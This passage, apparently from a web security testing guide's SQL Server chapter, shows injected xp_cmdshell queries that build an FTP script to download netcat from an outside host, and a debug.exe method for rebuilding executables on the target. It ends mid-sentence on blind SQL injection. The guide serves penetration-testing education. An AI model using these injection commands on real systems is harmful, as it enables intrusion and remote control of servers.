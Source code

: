 ```
exec master..xp_cmdshell 'echo open ftp.tester.org > ftpscript.txt';--
exec master..xp_cmdshell 'echo USER >> ftpscript.txt';--
exec master..xp_cmdshell 'echo PASS >> ftpscript.txt';--
exec master..xp_cmdshell 'echo bin >> ftpscript.txt';--
exec master..xp_cmdshell 'echo get nc.exe >> ftpscript.txt';--
exec master..xp_cmdshell 'echo quit >> ftpscript.txt';--
exec master..xp_cmdshell 'ftp -s:ftpscript.txt';--
```

At this point, `nc.exe` will be uploaded and available.

If FTP is not allowed by the firewall, we have a workaround that exploits the Windows debugger, `debug.exe`, that is installed by default in all Windows machines. `Debug.exe` is scriptable and is able to create an executable by executing an appropriate script file. What we need to do is to convert the executable into a debug script (which is a 100% ASCII file), upload it line by line and finally call `debug.exe` on it. There are several tools that create such debug files (e.g.: `makescr.exe` by Ollie Whitehouse and `dbgtool.exe` by `toolcrypt.org`). The queries to inject will therefore be the following:

```
exec master..xp_cmdshell 'echo [debug script line #1 of n] > debugscript.txt';--
exec master..xp_cmdshell 'echo [debug script line #2 of n] >> debugscript.txt';--
....
exec master..xp_cmdshell 'echo [debug script line #n of n] >> debugscript.txt';--
exec master..xp_cmdshell 'debug.exe < debugscript.txt';--
```

At this point, our executable is available on the target machine, ready to be executed. There are tools that automate this process, most notably `Bobcat`, which runs on Windows, and `Sqlninja`, which runs on Unix (See the tools at the bottom of this page).

### Obtain Information When It Is Not Displayed (Out of Band)

Not all is lost when the web application does not return any information –such as descriptive error messages (cf. [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection)). For example, it might happen that one has access to the source code (e.g., because the web application is based on an open source software). Then, the pen tester can exploit all the SQL injection vulnerabilities discovered offline in the web application. Although an IPS might stop some of these attacks, the best way would be to proceed as follows: develop and test the attacks in a testbed created for that purpose, and then execute these attacks against the web application being tested.

Other options for out of band attacks are described in [Sample 4 above](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.3-Testing_for_SQL_Server#Example-4:-Yet-Another-(Useful)-GET-Example).

### Blind SQL Injection Attacks

#### Trial and Error

Alternatively, one may play lucky. That is the attacker may assume that there is a blind or out-of-band SQL injection vulnerability in a the web application. He will then select an attack vector (e.g., a web entry), [use fuzz vectors](https://owasp.org/www-project-web-security-testing-guide/v42/6-Appendix/C-Fuzz_Vectors) against this channel and watch the response. For example, if the web application is looking for a book using a query
